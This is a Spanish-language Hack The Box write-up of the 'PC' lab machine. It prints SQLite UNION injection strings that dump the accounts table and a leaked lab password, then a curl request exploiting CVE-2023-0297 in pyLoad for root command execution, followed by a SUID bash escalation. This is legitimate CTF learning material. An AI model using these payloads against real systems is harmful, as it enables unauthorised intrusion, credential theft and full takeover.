 ```yaml
---
layout: single
title: "HackTheBox Writeup — PC"
categories: writeups
header:
    image: /assets/images/writeups/pc/cabecera.webp
---
```


Hola a todos soy Puchy y este será mi primer writeup espero que de muchos sobre un ejercicio CTF, en este caso de la máquina *PC* de [Hack the Box](https://app.hackthebox.com/home), para este tipo de problemas intento seguir siempre una misma metodología que se irá viendo a lo largo de este ejercicio en la separación de los apartados. Espero que al que este leyendo esto le sea de utilidad, le guste y aprenda algo.

# 1. Enumeración

Lo primero por lo que empezamos tras probar que tenemos conectividad con el servidor es hacer un reconocimiento de puertos a la máquina víctima para ello hago dos barridos, un escaneo rápido que me muestre todos los puertos abiertos y uno más exhaustivo para averiguar software o versiones de esos puertos.

**Escaneo rápido:**
*sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.214 -oN allPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:07:55 2023 as: nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up, received user-set (0.062s latency).
Scanned at 2023-09-06 12:07:55 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
50051/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  6 12:08:21 2023 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

**Escaneo de versiones:**
*nmap -p22,50051 -sCV 10.10.11.214 -oN versionPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:09:40 2023 as: nmap -p22,50051 -Pn -sCV -oN versionPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/6%Time=64F84FF7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 12:10:07 2023 -- 1 IP address (1 host up) scanned in 27.66 seconds
```
Esta vez estamos un caso un tanto especial ya que los puertos abiertos son el típico de *ssh* y uno muy extraño como es el 50051, que tras una larga búsquedad en Internet podemos averiguar que es el puerto por defecto de [gRPC](https://grpc.io/), el cual es un protocolo que permite la comunicación eficiente entre aplicaciones.

# 2. Reconocimiento de vulnerabilidades

Usando la herramienta [grpcui](https://github.com/fullstorydev/grpcui) con el comando `./grpcui --plaintext 10.10.11.214:50051` esta actúa como proxy y te permite hacer peticiones de manera gráfica al servidor.

![image-center](/assets/images/writeups/pc/grpcui.png){: .align-center}

Básicamente en la aplicación permite crear usuarios, loguearse y pedir información qué solo responde con *Will update soon*; si se prueba con *admin:admin* permite loguearse. Los token que da tienen el formato *b'token_de_la_cabecera'* por lo que a la hora de añadirlo en *getInfo* de cabecera hay que hacerlo sin la *b* y sin las comillas. Tras probar varias vulnerabilidades comprobé que el campo *id* en la función `getInfo` parecía ser vulnerable a una SQL injection, ya que al añafir al final `' OR 1=1 -- -` no daba ningún tipo de error.

# 3. Explotando vulnerabilidades

Tras probar unas cuantas inyecciones distitas para hallar que tipo de base de datos del que se trataba llegué a la conclusión de que era una *SQLite* gracias a esta inyección:

```sql
<id>' UNION SELECT 1 FROM sqlite_master--
```

Una vez que sabemos que existe esta tabla podemos obtener el nombre de las tablas que hay con la inyección `<id>' UNION SELECT tbl_name FROM sqlite_master--`, de la cual obtenemos que existe la tabla `accounts`. Para obtener los campos de esta tabla podemos usar la siguiente inyección `<id>' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='accounts'--` lo que nos da como resuldato lo siguiente:

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

Gracias a esto sabemos que la tabla tiene dos campos el *username* y *password*. Para saber el número de usuarios que hay en el sistema podemos hacer la consulta con `count(*)` y podemos ver que hay dos usuarios registrados. Añadiendo en la consulta el parámetro *OFFSET* podemos ir uno a uno viendo el nombre y contraseña de cada usuario, la inyección sería la siguiente:

```sql
<id>' UNION SELECT username FROM accounts LIMIT 1 OFFSET 1 --
```

Con esto obtenemos que existe usuario se llama *sau* y que su contraseña es *HereIsYourPassWord1431*, por lo que procedí a probar estos credenciales para el servicio *ssh* y así se obtenemos una conexión con la máquina y la flag de usuario.

# 4. Escalada de privilegios

Para escalar privilegios suelo empezar por mirar versiones, comandos de posible ejecución sudo o bits SUID, pero nada de eso estaba disponible. Pero al revisar los puertos internos que estan en esucha con el comando `netstat -tulpn` vemos que hay un servicio no listado eschuchando en el puerto 8000.

```ruby
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```


Por el número puerto podríamos intuir que es un servicio web para hacer esto podemos realizar por forwarding con ssh para poderla ver correctamente desde mi navegador, esto lo haremos con este comando `ssh -L 8000:localhost:8000 sau@10.10.11.214` en este se indica que quiero que a través del puerto 8000 de mi equipo quiero conectarme a través de esa conexión ssh al puerto 8000 del otro equipo, y encuentro esta página.

![image-center](/assets/images/writeups/pc/pyload.png){: .align-center}

Con una búsqueda rápida se ve que seguramente sea vulnerable al [CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297) con el que con este [exploit](https://www.exploit-db.com/exploits/51532) unicamente haciendo una petición HTTP tenemos ejecución remota de comandos como root. Aquí muestro una prueba con el comando curl de como se crearía el archivo *prueba* en `/tmp`.

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/prueba\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```
Como no me daba respuesta la reverse shell, lo hice de una manera más simple dandole permisos SUID a la bash.

![image-center](/assets/images/writeups/pc/suid-bash.png){: .align-center}

Y con esto ya podemos leer la flag del directorio `/root` y la máquina estaría resuelta!!!

Como vemos se trata de una máquina muy interesante y un poco distinta al tratarse de un protocolo tan poco conocido que al principio puede desconcertar un poco. Sin más un saludo, gracias por leerme y a seguir hackeando.

